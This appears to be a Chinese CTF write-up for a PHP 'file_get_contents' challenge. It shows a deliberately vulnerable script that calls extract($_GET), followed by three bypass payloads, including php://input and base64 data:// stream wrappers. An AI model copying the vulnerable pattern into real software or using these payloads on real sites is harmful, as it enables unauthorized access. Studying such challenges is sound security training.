 # file_get_contents



```php
<?php
extract($_GET);
if (!empty($ac))
{
$f = trim(file_get_contents($fn));
if ($ac === $f)
{
echo "<p>This is flag:" ." $flag</p>";
}
else
{
echo "<p>sorry!</p>";
}}?>
```

## 解法1：

```
?ac=bugku&fn=flag.txt
```

由于flag.txt里面内容就是bugku

## 解法2：

```
?ac=bugku&fn=php://input
burp抓到数据包里的数据写1
```

利用php://input伪协议进行绕过

## 解法3：

```
?ac=bugku&fn=data://text/plain;base64,YnVna3U=
```

利用data://text/plain伪协议进行绕过,进行了base64编码，可以用来过一些简单的过滤



